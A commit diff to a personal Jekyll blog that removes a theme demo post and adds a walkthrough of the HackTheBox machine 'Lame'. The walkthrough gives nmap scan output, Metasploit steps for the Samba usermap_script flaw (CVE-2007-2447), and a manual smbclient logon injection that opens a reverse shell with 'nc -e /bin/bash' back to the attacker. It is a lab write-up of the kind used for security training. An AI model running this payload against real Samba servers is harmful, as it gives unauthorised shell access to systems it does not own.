

Before and after one commit to raph-ostrovsky/raph-ostrovsky.github.io, a Jekyll site: the page built from _posts/2022-09-01-demo-post.md, in a window 1280 px wide and 1400 px high, scrolled down 400 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
some_posts

````diff
--- a/_posts/2018-06-30-demo-post.md
+++ /dev/null
@@ -1,103 +0,0 @@
----
-title: 'Demo Post'
-date: 2018-06-30 00:00:00
-featured_image: '/images/demo/demo-square.jpg'
-excerpt: This page is a demo that shows everything you can do inside portfolio and blog posts. We've included everything you need to create engaging posts about your work, and show off your case studies in a beautiful way.
----
-
-![](/images/demo/demo-landscape.jpg)
-
-## Demo content
-
-This page is a demo that shows everything you can do inside portfolio and blog posts.
-
-We've included everything you need to create engaging posts about your work, and show off your case studies in a beautiful way.
-
-**Obviously,** we’ve styled up *all the basic* text formatting options [available in markdown](https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet).
-
-You can create lists:
-
-* Simple bulleted lists
-* Like this one
-* Are cool
-
-And:
-
-1. Numbered lists
-2. Like this other one
-3. Are great too
-
-You can also add blockquotes, which are shown at a larger width to help break up the layout and draw attention to key parts of your content:
-
-> “Simple can be harder than complex: You have to work hard to get your thinking clean to make it simple. But it’s worth it in the end because once you get there, you can move mountains.”
-
-The theme also supports markdown tables:
-
-| Item                 | Author        | Supports tables? | Price |
-|----------------------|---------------|------------------|-------|
-| Duet Jekyll Theme    | Jekyll Themes | Yes              | $49   |
-| Index Jekyll Theme   | Jekyll Themes | Yes              | $49   |
-| Journal Jekyll Theme | Jekyll Themes | Yes              | $49   |
-
-And footnotes[^1], which link to explanations[^2] at the bottom of the page[^3].
-
-[^1]: Beautiful modern, minimal theme design.
-[^2]: Powerful features to show off your work.
-[^3]: Maintained and supported by the theme developer.
-
-You can throw in some horizontal rules too:
-
----
-
-### Image galleries
-
-Here's a really neat custom feature we added – galleries:
-
-<div class="gallery" data-columns="3">
-	<img src="/images/demo/demo-portrait.jpg">
-	<img src="/images/demo/demo-landscape.jpg">
-	<img src="/images/demo/demo-square.jpg">
-	<img src="/images/demo/demo-landscape-2.jpg">
-</div>
-
-Inspired by the Galleries feature from WordPress, we've made it easy to create grid layouts for your images. Just use a bit of simple HTML in your post to create a masonry grid image layout:
-
-```html
-<div class="gallery" data-columns="3">
-    <img src="/images/demo/demo-portrait.jpg">
-    <img src="/images/demo/demo-landscape.jpg">
-    <img src="/images/demo/demo-square.jpg">
-    <img src="/images/demo/demo-landscape-2.jpg">
-</div>
-```
-
-*See what we did there? Code and syntax highlighting is built-in too!*
-
-Change the number inside the 'columns' setting to create different types of gallery for all kinds of purposes. You can even click on each image to seamlessly enlarge it on the page.
-
----
-
-### Image carousels
-
-Here's another gallery with only one column, which creates a carousel slide-show instead.
-
-A nice little feature: the carousel only advances when it is in view, so your visitors won't scroll down to find it half way through your images.
-
-<div class="gallery" data-columns="1">
-	<img src="/images/demo/demo-landscape.jpg">
-	<img src="/images/demo/demo-landscape-2.jpg">
-</div>
-
-### What about videos?
-
-Videos are an awesome way to show off your work in a more engaging and personal way, and we’ve made sure they work great on our themes. Just paste an embed code from YouTube or Vimeo, and the theme makes sure it displays perfectly:
-
-<iframe src="https://player.vimeo.com/video/203710832" width="640" height="288" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>
-
----
-
-## Pretty cool, huh?
-
-We've packed this theme with powerful features to show off your work. Why not put them to use on your new portfolio?
-
-<a href="https://jekyllthemes.io/theme/journal-personal-jekyll-theme" class="button button--large">Get This Theme</a>
--- /dev/null
+++ b/_posts/2022-09-01-demo-post.md
@@ -0,0 +1,107 @@
+---
+title: 'Lame'
+date: 2022-09-01 00:00:00
+featured_image: '/images/htb/lame.png'
+excerpt: Lame
+---
+
+![](/images/htb/lame.png)
+
+> nmap -sC -sV 10.10.10.3
+
+> -sC - default set of scripts
+> -sV - enables version detection
+
+```
+Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 09:39 CEST
+Nmap scan report for 10.10.10.3
+Host is up (0.068s latency).
+Not shown: 996 filtered tcp ports (no-response)
+PORT    STATE SERVICE     VERSION
+21/tcp  open  ftp         vsftpd 2.3.4
+|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
+| ftp-syst:
+|   STAT:
+| FTP server status:
+|      Connected to 10.10.16.10
+|      Logged in as ftp
+|      TYPE: ASCII
+|      No session bandwidth limit
+|      Session timeout in seconds is 300
+|      Control connection is plain text
+|      Data connections will be plain text
+|      vsFTPd 2.3.4 - secure, fast, stable
+|_End of status
+22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
+| ssh-hostkey:
+|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
+|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
+139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
+445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
+Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
+
+Host script results:
+|_smb2-time: Protocol negotiation failed (SMB2)
+| smb-security-mode:
+|   account_used: <blank>
+|   authentication_level: user
+|   challenge_response: supported
+|_  message_signing: disabled (dangerous, but default)
+| smb-os-discovery:
+|   OS: Unix (Samba 3.0.20-Debian)
+|   Computer name: lame
+|   NetBIOS computer name:
+|   Domain name: hackthebox.gr
+|   FQDN: lame.hackthebox.gr
+|_  System time: 2022-05-19T03:40:29-04:00
+|_clock-skew: mean: 2h00m41s, deviation: 2h49m43s, median: 40s
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 59.92 seconds
+```
+
+Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.
+
+Searching shows vuln: _CVE-2007-2447_
+
+### Metasploit
+> use usermap_script
+> set rhosts 10.10.10.3
+> exploit
+
+And... boom. We got shell.
+
+In my case needed to change LHOST also - remember to check if it's the same as connected to HackTheBox.
+
+### Without Metasploit
+
+Start nc listener (other terminal):
+
+```shell
+nc -lvnp 4444
+```
+
+> -l - listen mode
+> -v - verbose
+> -n -  numeric-only IP, no DNS
+> -p - port
+
+Second terminal:
+
+> smbclient //10.10.10.3/tmp
+> enter
+
+```shell
+logon "./=`nohup nc -e /bin/bash <your ip> 4444`"
+```
+
+> logon: - it is used to login into smb
+> nohup: - run a command immune to hangups, with output to a non-tty
+
+We got it.
+
+There are two flags:
+```shell
+cat /root/root.txt
+cat /home/makis/user.txt
+```
````
Also changed, not shown: _posts/2018-07-29-linux.md (deleted, +0 -111 lines), _projects/2022-08-23-raspberrypi-project copy.md (+3 -5 lines), images/htb/lame.png (added).
